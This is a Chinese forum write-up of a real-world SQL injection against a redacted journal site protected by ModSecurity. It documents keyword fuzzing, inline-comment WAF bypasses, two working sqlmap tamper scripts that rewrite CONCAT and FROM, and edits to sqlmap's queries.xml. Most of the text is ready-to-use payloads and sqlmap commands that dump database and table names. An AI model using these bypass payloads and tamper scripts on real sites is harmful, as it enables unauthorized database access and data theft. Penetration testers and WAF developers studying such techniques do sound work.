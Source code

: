 

# 一次注入实战引发的 SQLMAP 修改之路 - 先知社区

一次注入实战引发的 SQLMAP 修改之路

- - -

# 一、前言

SQLmap 的 payload 修改一般有两种方式： 
1、编写 tamper  
2、修改/添加 sqlmap 的 xml 文件语句自定义 payload

# 二、注入点 Fuzz

选中目标网站：[http://www.xxxx.com/journals\_desc.php?id=40](http://www.xxxx.com/journals_desc.php?id=40)  
单引号报错，对单引号进行转义，id=0=0 测试回显正常，int 型注入

[![](assets/1698897395-087452846f83c4df303b0a606038efba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150651-a71aa4bc-11ad-1.png)

Order by 猜字段值为 7  
Waf 为 Modsec，直接使用 union select 被拦截：

[![](assets/1698897395-0bc38b7baadbae97d5fa24fb67b1444b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150707-b0415338-11ad-1.png)

```plain
Fuzz：
       单个 union    #不拦截
       单个 select    #不拦截
Union select  #拦截
union /**/ select #拦截
/*!00000union*/ select #内联注释，不拦截
/*!50000union*/ select 1,2,3,4,5,6,7
```

[![](assets/1698897395-f7804b45023c48eee7fa5658800279b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150725-baf1a594-11ad-1.png)

此处应该是涉及到强弱类型转换的问题，int 为强类型，猜测对应的字段为弱类型  
解决方法：  
\[1\]使用 string 方法、但单引号’被被转义了，所以该方法行不通  
\[2\]采用报错注入

# 三、编写简单 Tamper 脚本绕过

（使用自带的 modsecurityzeroversioned.py 不能绕过）  
报错注入过程中，发现主要过滤关键词 from 和函数 concat（）  
1、concat() 被过滤：`concat()-->concat/**/()`  
对应 tamper 脚本 concat2concatcomment.py 如下：

```plain
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("CONCAT","CONCAT/**/")
```

2、from 被过滤，`from`\-->`/*!44144from*/`  
对应 tamper 脚本 from.py 如下：

```plain
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("FROM","/*!44144FROM*/")
```

python sqlmap.py -u "[https://www.xxxx.com/journals\_desc.php?id=66](https://www.xxxx.com/journals_desc.php?id=66)" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment" --force-ssl --technique=E

[![](assets/1698897395-9becb52fb7db2f4735203ffff4604e40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191203115117-291b7916-1580-1.png)

`--dbs`读取（可以比对一下使用 tamper 脚本和使用 tamper 脚本后语句）  
payload in sqlmap:

```plain
AND (SELECT 8403 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b707071,(SELECT REPEAT(0x34,1024)),0x71627a7a71,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[![](assets/1698897395-1ba1869e1b717f76159cef301c6a84d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191203114925-e65a320c-157f-1.png)

`--tables`读取，很遗憾，读取失败

[![](assets/1698897395-7bd22600481d4f3bc540b2ae5c37e6ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150750-ca51e544-11ad-1.png)

再次把它的 payload 拿到本地测试，也是行不通的。语句很长，需要慢慢 fuzz 究竟是哪里被拦截、组合、函数、关键字？  
但是，，，，坑的是竟然不是因为过滤引起的？？？？

# 四、修改 SQLmap 的 xml 文件语句

实在不行了，去用手工注了出来，但是用 SQLmap 就是跑不出来？？？  
再去看一下 SQLmap 的 payload 是不是有问题，咋一看没什么大问题，所以我一开始也忽略了，卡了好久。也就是这里涉及到了直接修改 SQLmap 自带的语句。  
大家自行比较一下下面这两条语句看看能不能看出问题~  
1、

```plain
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.TABLES%20where%20table_schema=database())%20),1)
```

2、

```plain
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.`TABLES`%20where%20table_schema=database())%20),1)
```

下面讲几个概念  
\[1\]table 和 colums 在 mysql 中是特殊字符  
\[2\]反引号是 sql 语言的转义字符  
\[3\]在 mysql 中的 sql 语句为了避免与系统冲突给表名加上反引号，（但在指定其他数据库时不能加，否则会被认作是表）

我们可以看到这里 sqlmap 的 payload，对于 information\_schema.tables 中的 tables 并没有加反引号，指引到/xml/queries.xml

```plain
information_schema.tables --> information_schema.`tables`
```

当然，columns 也需要修改

```plain
information_schema.columns --> information_schema.`columns`
```

修改之后跑表：

```plain
python sqlmap.py -u "https://www.xxxx.com/journals_desc.php?id=66" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment"   --technique=E   -D mililink_main --tables
payload in sqlamp（比对一下 payload，看看效果）:
66 AND (SELECT 9571 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b7a6b71,(SELECT MID((IFNULL(CAST(table_name AS CHAR),0x20)),1,54) /*!44144FROM*/ INFORMATION_SCHEMA.`TABLES` WHERE table_schema IN (0x6d696c696c696e6b5f6d61696e) LIMIT 15,1),0x7171767071,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[![](assets/1698897395-bd02031ad32263b0be78e30f2f271f84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150800-d00c86a6-11ad-1.png)

跑列值也是一样的，就不多说了，直接上图

[![](assets/1698897395-fb3e60d35abca54e6b3b5afe8b5497e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150805-d34505f0-11ad-1.png)

五、关于 SQLmap 自定义 payload 的一些思考  
SQLmap 的 payload 修改，其实并不复杂。

tamper 脚本的编写，可以参考上边的 from.py 和 concat2concatcomment.py，它其实是有固定格式的。简单的自定义 paylaod 只需要在 def tamper(payload, \*\*kwargs) 函数中写入替换语句即可。可参考[https://payloads.online/archivers/2017-06-08/1](https://payloads.online/archivers/2017-06-08/1)

修改/添加 sqlmap 的 xml 文件语句来自定义 payload。需要找到对应的 xml 文件，然后修改 xml 文件中的语句。  
查询语句在\\sqlmap\\data\\xml\\ queries.xml 定义，若想自定义查询语句则只需要修改/添加想要执行的查询语句即可，如上边对 INFORMATION\_SCHEMA.`TABLES`的修改  
不同的注入方式使用的语句则需要在对应的注入方式中的 xml 语句进行修改，在\\sqlmap\\data\\xml\\payloads\\文件下

[![](assets/1698897395-36ccc568880d27790137521e93a3cf48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150815-d8ab5148-11ad-1.png)

假若我们需要修改 error-base 注入方式的 payload，则需要在/xml/payload/error\_based.xml 中修改
